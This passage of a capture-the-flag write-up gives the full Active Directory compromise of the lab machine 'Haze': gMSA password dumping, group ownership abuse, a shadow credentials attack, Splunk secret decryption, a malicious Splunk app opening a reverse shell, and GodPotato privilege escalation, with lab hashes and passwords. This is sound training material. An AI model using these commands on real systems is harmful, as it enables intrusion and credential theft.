permission: WRITE

distinguishedName: CN=Mark Adams,CN=Users,DC=haze,DC=htb
permission: WRITE

distinguishedName: CN=Haze-IT-Backup,CN=Managed Service Accounts,DC=haze,DC=htb
permission: WRITE

distinguishedName: DC=haze.htb,CN=MicrosoftDNS,DC=DomainDnsZones,DC=haze,DC=htb
permission: CREATE_CHILD

distinguishedName: DC=_msdcs.haze.htb,CN=MicrosoftDNS,DC=ForestDnsZones,DC=haze,DC=htb
permission: CREATE_CHILD
```
So i have write access on this, so i should be able to add the right to make it so i can read the NTLM

```python
*Evil-WinRM* PS C:\Users\mark.adams\Desktop> Set-ADServiceAccount Haze-IT-Backup -PrincipalsAllowedToRetrieveManagedPassword "mark.adams"
```
Now i should be able to dump it.

```python
nxc ldap dc01.haze.htb -u mark.adams -p 'Ld@p_Auth_Sp1unk@2k24' --gmsa
LDAP        10.129.11.223   389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb) (signing:None) (channel binding:Never) 
LDAP        10.129.11.223   389    DC01             [+] haze.htb\mark.adams:Ld@p_Auth_Sp1unk@2k24 
LDAP        10.129.11.223   389    DC01             [*] Getting GMSA Passwords
LDAP        10.129.11.223   389    DC01             Account: Haze-IT-Backup$      NTLM: 76da32697ff38bc7c9fa6289abf47940     PrincipalsAllowedToReadPassword: mark.adams
```
Now i have the NTLM of the service account



This account has WriteOwner over the support services group

So the next step is to grab a TGT for the `haze-it-backup$` account then grant ownership to myself over the group, then i can apply GenericAll to the group.

On second thought i think bloodyAD support pass the hash so i dont need a TGT.

But looking at the members of that group i see there arent any, this could be just something weird with this box, i had to rerun collection several times already so see what rights ive got.

## GenericAll on the support services group

```python
bloodyAD --host dc01.haze.htb -d haze.htb -u 'Haze-IT-Backup$' -p ':76da32697ff38bc7c9fa6289abf47940'  set owner Support_Services 'Haze-IT-Backup$'
[+] Old owner S-1-5-21-323145914-28650650-2368316563-512 is now replaced by Haze-IT-Backup$ on Support_Services
```
Now i am the owner of the group

```python
bloodyAD --host dc01.haze.htb -d haze.htb -u 'Haze-IT-Backup$' -p ':76da32697ff38bc7c9fa6289abf47940' add genericAll 'support_services' 'Haze-IT-Backup$'
[+] Haze-IT-Backup$ has now GenericAll on support_services
```
Now i have GenericAll over the group!

So now ill re-collect bloodhound data, since i think there may be a member of support services i can use but for some reason i just cant see it.



After re-collecting bloodhound data i see there is a user i can use. I have `ForceChangePassword` on `edward.martin` and also `AddKeyCredentialLink`

So i have two options, i can either change the users password or i can abuse shadow credentials

## Compromising `edward.martin`

```python
bloodyAD --host dc01.haze.htb -d haze.htb -u 'haze-it-backup$' -p ':76da32697ff38bc7c9fa6289abf47940' add groupMember 'Support_Services' 'haze-it-backup$'

[+] haze-it-backup$ added to Support_Services
```
Now ill add myself to the group itself

```python
bloodyAD --host dc01.haze.htb -d haze.htb -u 'haze-it-backup$' -p ':76da32697ff38bc7c9fa6289abf47940' set password 'edward.martin' 'Password123!'
Traceback (most recent call last):
  File "/home/kali/.local/bin/bloodyAD", line 6, in <module>
    sys.exit(main())
             ~~~~^^
  File "/home/kali/.local/share/pipx/venvs/bloodyad/lib/python3.13/site-packages/bloodyAD/main.py", line 342, in main
    asyncio.run(amain())
    ~~~~~~~~~~~^^^^^^^^^
  File "/usr/lib/python3.13/asyncio/runners.py", line 195, in run
    return runner.run(main)
           ~~~~~~~~~~^^^^^^
  File "/usr/lib/python3.13/asyncio/runners.py", line 118, in run
    return self._loop.run_until_complete(task)
           ~~~~~~~~~~~~~~~~~~~~~~~~~~~~~^^^^^^
  File "/usr/lib/python3.13/asyncio/base_events.py", line 725, in run_until_complete
    return future.result()
           ~~~~~~~~~~~~~^^
  File "/home/kali/.local/share/pipx/venvs/bloodyad/lib/python3.13/site-packages/bloodyAD/main.py", line 272, in amain
    output = await result
             ^^^^^^^^^^^^
  File "/home/kali/.local/share/pipx/venvs/bloodyad/lib/python3.13/site-packages/bloodyAD/cli_modules/set.py", line 288, in password
    raise e
  File "/home/kali/.local/share/pipx/venvs/bloodyad/lib/python3.13/site-packages/bloodyAD/cli_modules/set.py", line 129, in password
    await ldap.bloodymodify(target, {"unicodePwd": op_list})
  File "/home/kali/.local/share/pipx/venvs/bloodyad/lib/python3.13/site-packages/bloodyAD/network/ldap.py", line 336, in bloodymodify
    raise err
badldap.commons.exceptions.LDAPModifyException: 
Password can't be changed before -1 day, 7:55:46.122722 because of the minimum password age policy.
```
So i cannot abuse `ForceChangePassword` for some reason here

So ill have to abuse shadow credentials here

https://www.hackingarticles.in/shadow-credentials-attack/

```python
faketime -f +8h certipy-ad shadow auto -u 'haze-it-backup$@haze.htb' -hashes ':76da32697ff38bc7c9fa6289abf47940' -account 'edward.martin' -debug -dc-host dc01.haze.htb -dc-ip 10.129.12.135 -target dc01.haze.htb
Certipy v5.0.4 - by Oliver Lyak (ly4k)

[+] Nameserver: '10.129.12.135'
[+] DC IP: '10.129.12.135'
[+] DC Host: 'dc01.haze.htb'
[+] Target IP: None
[+] Remote Name: 'dc01.haze.htb'
[+] Domain: 'HAZE.HTB'
[+] Username: 'HAZE-IT-BACKUP$'
[+] Trying to resolve 'dc01.haze.htb' at '10.129.12.135'
[+] Authenticating to LDAP server using NTLM authentication
[+] Using NTLM signing: False (LDAP signing: True, SSL: True)
[+] Using channel binding signing: True (LDAP channel binding: True, SSL: True)
[+] Using LDAP channel binding for NTLM authentication
[+] LDAP NTLM authentication successful
[+] Bound to ldaps://10.129.12.135:636 - ssl
[+] Default path: DC=haze,DC=htb
[+] Configuration path: CN=Configuration,DC=haze,DC=htb
[*] Targeting user 'edward.martin'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID 'b5d7a68a63324a4498adef96fec68039'
[*] Adding Key Credential with device ID 'b5d7a68a63324a4498adef96fec68039' to the Key Credentials for 'edward.martin'
[*] Successfully added Key Credential with device ID 'b5d7a68a63324a4498adef96fec68039' to the Key Credentials for 'edward.martin'
[*] Authenticating as 'edward.martin' with the certificate
[*] Certificate identities:
[*]     No identities found in this certificate
[*] Using principal: 'edward.martin@haze.htb'
[*] Trying to get TGT...
[+] Sending AS-REQ to KDC haze.htb (10.129.12.135)
[*] Got TGT
[*] Saving credential cache to 'edward.martin.ccache'
[+] Attempting to write data to 'edward.martin.ccache'
[+] Data written to 'edward.martin.ccache'
[*] Wrote credential cache to 'edward.martin.ccache'
[*] Trying to retrieve NT hash for 'edward.martin'
[*] Restoring the old Key Credentials for 'edward.martin'
[*] Successfully restored the old Key Credentials for 'edward.martin'
[*] NT hash for 'edward.martin': 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```
I now have the NT hash for the user `edward.martin`

```python
nxc smb dc01.haze.htb -u edward.martin -H '09e0b3eeb2e7a6b0d419e9ff8f4d91af'                                                                    
SMB         10.129.12.135   445    DC01             [*] Windows Server 2022 Build 20348 x64 (name:DC01) (domain:haze.htb) (signing:True) (SMBv1:None) (Null Auth:True)
SMB         10.129.12.135   445    DC01             [+] haze.htb\edward.martin:09e0b3eeb2e7a6b0d419e9ff8f4d91af
```
This user is now compromised



This user is also part of the remote management users group and is also part of the group `backup_reviewers`

## Access to the splunk portal as the administrator

```python
*Evil-WinRM* PS C:\> cd Backups
*Evil-WinRM* PS C:\Backups> dir


    Directory: C:\Backups


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----          3/5/2025  12:33 AM                Splunk


*Evil-WinRM* PS C:\Backups> cd Splunk
*Evil-WinRM* PS C:\Backups\Splunk> dir


    Directory: C:\Backups\Splunk


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
-a----          8/6/2024   3:22 PM       27445566 splunk_backup_2024-08-06.zip


*Evil-WinRM* PS C:\Backups\Splunk> download splunk_backup_2024-08-06.zip
                                        
Info: Downloading C:\Backups\Splunk\splunk_backup_2024-08-06.zip to splunk_backup_2024-08-06.zip
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Backups\Splunk>
```
Found a splunk backup file that ill download to my machine.

Browsing to the path `/Splunk/etc/auth/splunk.secret` i find a different secret than what i found earlier.

```python
cat splunk.secret 
CgL8i4HvEen3cCYOYZDBkuATi5WQuORBw9g4zp4pv5mpMcMF3sWKtaCWTX8Kc1BK3pb9HR13oJqHpvYLUZ.gIJIuYZCA/YNwbbI4fDkbpGD.8yX/8VPVTG22V5G5rDxO5qNzXSQIz3NBtFE6oPhVLAVOJ0EgCYGjuk.fgspXYUc9F24Q6P/QGB/XP8sLZ2h00FQYRmxaSUTAroHHz8fYIsChsea7GBRaolimfQLD7yWGefscTbuXOMJOrzr/6B
```

The secret i found earlier via LFI on the live application was for the hash in `etc/system/local/authentication.conf`

But there were four more hashes in the splunk `/etc/passwd` file that i couldnt decrypt before, this secret may allow me to decrypt those hashes?

Also checking the `/etc/passwd` file in the zipped backup i find a different admin hash

```python
cat passwd       
:admin:$6$8FRibWS3pDNoVWHU$vTW2NYea7GiZoN0nE6asP6xQsec44MlcK2ZehY5RC4xeTAz4kVVcbCkQ9xBI2c7A8VPmajczPOBjcVgccXbr9/::Administrator:admin:changeme@example.com:::19934
```
This hash is different from the one i found earlier

So after doing some research the hashes with the identifier `$7$` are more like encrpyted strings that can be reversed using the `splunk.secret` but the hashes with the identifier `$6$` use sha-512 hashing algorithm so the secret is useless for this new admin hash ive found.

The new hash doesnt crack so ill keep looking through the directory

```python
grep -r 'bindDNpassword'

var/run/splunk/confsnapshot/baseline_local/system/local/authentication.conf:bindDNpassword = $1$YDz8WfhoCWmf6aTRkA+QqUI=
```
Ill go into the root directory and look for any fields called `bindDNpassword` this was where i found the hash i had earlier in the live web application.

This is an older legacy splunk algorithm, once again i can use splunksecrets to decrpyt this

```python
splunksecrets splunk-legacy-decrypt -S splunk.secret --ciphertext '$1$YDz8WfhoCWmf6aTRkA+QqUI='
Sp1unkadmin@2k24
```
I now have this password, this was meant to be for the user alexander green but it doesnt work as domain credentials.



I noe have access as the administrator.

## Domain admin

### Shell as `alexander.green`

https://github.com/0xjpuff/reverse_shell_splunk

Ill use this repo to guide me to make a malicious application!

First ill clone the repo

```python
git clone https://github.com/0xjpuff/reverse_shell_splunk
```

```python
cd reverse_shell_splunk
```
Then ill move into the directory and make some slight changes

Ill modify `run.ps1` and add my IP address and the port ive chosen for the listener

```python
rm rev.py
```

Then ill remove the rev.py file since its for unix installs

Then finally ill modify `inputs.conf` to look like this:

```python
[script://.\bin\run.bat]
disabled = 0
sourcetype = pentest
interval = 10
```
Ive basically removed the section for `rev.py` since i dont need it

Then i can prep the archive

```python
tar -cvzf reverse_shell_splunk.tgz reverse_shell_splunk
mv reverse_shell_splunk.tgz shell.spl
```
Now i can upload this by navigating to `Apps -> Manage Apps` then i can install an app from file

Once the app uploads ill do a restart and a second later i get a shell!

```python
penelope -p 443
[+] Listening for reverse shells on 0.0.0.0:443 -> 127.0.0.1 • 192.168.1.157 • 10.10.15.69
➤  🏠 Main Menu (m) 💀 Payloads (p) 🔄 Clear (Ctrl-L) 🚫 Quit (q/Ctrl-C)
[+] [New Reverse Shell] => DC01 10.129.232.50 Microsoft_Windows_Server_2022_Standard-x64-based_PC 👤 haze\alexander.green 😍️ Session ID <1>
[+] Added readline support...
[+] Interacting with session [1] • Readline • Menu key Ctrl-D ⇐
[+] Session log: /home/kali/.penelope/sessions/DC01~10.129.232.50-Microsoft_Windows_Server_2022_Standard-x64-based_PC/2026_06_08-18_52_13-373.log
───────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
PS C:\Windows\system32> whoami
haze\alexander.green
PS C:\Windows\system32> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeMachineAccountPrivilege     Add workstations to domain                Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
PS C:\Windows\system32>
```
I also have `SeImpersonatePrivilege`

So i can just upload GodPotato

### Uploading GodPotato

https://github.com/BeichenDream/GodPotato/releases

```python
python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 (http://0.0.0.0:4444/) ...
```

```python
PS C:\users\alexander.green\Documents> wget http://10.10.15.69:4444/GodPotato-NET4.exe -o godpotato.exe
PS C:\users\alexander.green\Documents> dir


    Directory: C:\users\alexander.green\Documents


Mode                 LastWriteTime         Length Name                                                                 
----                 -------------         ------ ----                                                                 
-a----          6/8/2026   7:01 PM          57344 godpotato.exe                                                        


PS C:\users\alexander.green\Documents>
```
Ill download it from github, then transfer it my machine using a python web server

Now all i need to do is run it!

```python
PS C:\users\alexander.green\Documents> .\godpotato.exe -cmd "cmd /c net localgroup administrators paul.taylor /add"
[*] CombaseModule: 0x140716828131328
[*] DispatchTable: 0x140716830722376
[*] UseProtseqFunction: 0x140716830014272
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] Trigger RPCSS
[*] CreateNamedPipe \\.\pipe\85681b04-065f-4c07-bd08-9c216bafb7e2\pipe\epmapper
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 0000b002-1464-ffff-4c01-5453e2e0a0ab
[*] DCOM obj OXID: 0x556fb81f0db89e2
[*] DCOM obj OID: 0xbe981b63a7f4d38d
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 936 Token:0x644  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 3548
The command completed successfully.

PS C:\users\alexander.green\Documents> 
```
This command added the initial user i compromise `paul.taylor` to the administrators group.

Now if i login via evil-winrm i should have admin access.

### Domain admin
```python
evil-winrm -i haze.htb -u paul.taylor -p 'Ld@p_Auth_Sp1unk@2k24'
                                        
Evil-WinRM shell v3.9
                                        
Warning: Remote path completions is disabled due to ruby limitation: undefined method `quoting_detection_proc' for module Reline
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\paul.taylor\Documents> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State
========================================= ================================================================== =======
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Enabled
SeMachineAccountPrivilege                 Add workstations to domain                                         Enabled
SeSecurityPrivilege                       Manage auditing and security log                                   Enabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Enabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Enabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled
SeSystemtimePrivilege                     Change the system time                                             Enabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled
SeBackupPrivilege                         Back up files and directories                                      Enabled
SeRestorePrivilege                        Restore files and directories                                      Enabled
SeShutdownPrivilege                       Shut down the system                                               Enabled
SeDebugPrivilege                          Debug programs                                                     Enabled
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Enabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled
SeRemoteShutdownPrivilege                 Force shutdown from a remote system                                Enabled
SeUndockPrivilege                         Remove computer from docking station                               Enabled
SeEnableDelegationPrivilege               Enable computer and user accounts to be trusted for delegation     Enabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Enabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled
SeCreateGlobalPrivilege                   Create global objects                                              Enabled
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled
SeTimeZonePrivilege                       Change the time zone                                               Enabled
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled
*Evil-WinRM* PS C:\Users\paul.taylor\Documents>
```
Domain admin!
